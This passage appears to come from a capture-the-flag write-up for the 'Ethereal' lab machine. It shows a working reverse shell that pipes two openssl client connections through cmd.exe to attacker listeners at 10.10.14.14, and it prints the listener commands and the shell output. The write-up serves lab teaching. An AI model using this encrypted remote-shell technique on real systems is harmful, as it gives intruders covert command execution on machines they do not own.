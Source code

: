 ```

root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 73
"test"

```

#### Shell

To make a shell, I’m going to use two `openssl` calls, with one piping output into `cmd`, and the output of that piped into the other. I can type commands into one connection and get results back on the other. For more details, check out [this post, OpenSSL == NC](https://blog.inequationgroup.com/openssl-nc/).

I’ll start two `openssl` servers just as above, and then run the following:

```

ethereal> quiet start cmd /c "c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 | cmd.exe | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136"

```

Note that the `start` is really important here as that opens this in a new process so that it stays running after the web request times out.

The listener on 73 doesn’t show anything, but on 136, I get:

```

root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>

```

If I type into the 73 listener, I get results (including the command typed) in the 136 listener:

```

root@kali# rlwrap openssl s_server -quiet -key key.pem -cert cert.pem  -port 73
whoami

```

```

c:\windows\system32\inetsrv>whoami
ethereal\alan

c:\windows\system32\inetsrv>

```

Given that the entire transcript shows up in the 136 window, I will just show that from now on. But know that every command I type into this shell is actually entered into the port 73 connection. Also, I’m using `rlwrap` on the port 73 connection. That gives me history with up arrow on that terminal.
